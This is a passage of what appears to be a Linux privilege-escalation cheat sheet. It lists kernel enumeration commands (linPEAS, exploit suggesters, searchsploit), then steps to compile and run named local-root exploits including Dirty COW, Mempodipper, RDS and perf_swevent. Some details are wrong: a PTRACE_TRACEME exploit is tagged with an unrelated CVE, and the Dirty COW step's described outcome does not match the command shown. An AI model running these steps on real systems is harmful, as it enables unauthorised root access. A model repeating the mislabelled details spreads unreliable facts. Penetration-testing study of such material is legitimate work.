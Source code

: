 ```bash
# Using Linux Exploit Suggester
./linux-exploit-suggester-2.pl -k $(uname -r)

# Using linPEAS
./linpeas.sh | grep -i "kernel version\|CVE"

# Using Linux Smart Enumeration (level 2 for kernel info)
./lse.sh -l 2 | grep -i "kernel"

# Find exploits for the current kernel
searchsploit $(uname -r)
```

### Common Kernel Exploits

```bash
# Dirty COW (CVE-2016-5195) - Works on Linux 2.6.22 through 4.8.3
# Running exploit creates SUID root shell
gcc -pthread dirty.c -o dirty -lcrypt
./dirty "newrootpassword"

# PTRACE_TRACEME local root (CVE-2010-3301)
gcc pwn.c -o pwn
./pwn

# Mempodipper (CVE-2012-0056) - For Linux 2.6.39 < 3.2.2
gcc mempodipper.c -o mempodipper
./mempodipper

# RDS (CVE-2010-3904) - For Linux < 2.6.36-rc8
gcc rds.c -o rds
./rds

# perf_swevent_init (CVE-2013-2094) - For kernel 3.8.0/3.8.1
gcc perf_swevent.c -o perf_swevent
./perf_swevent
```
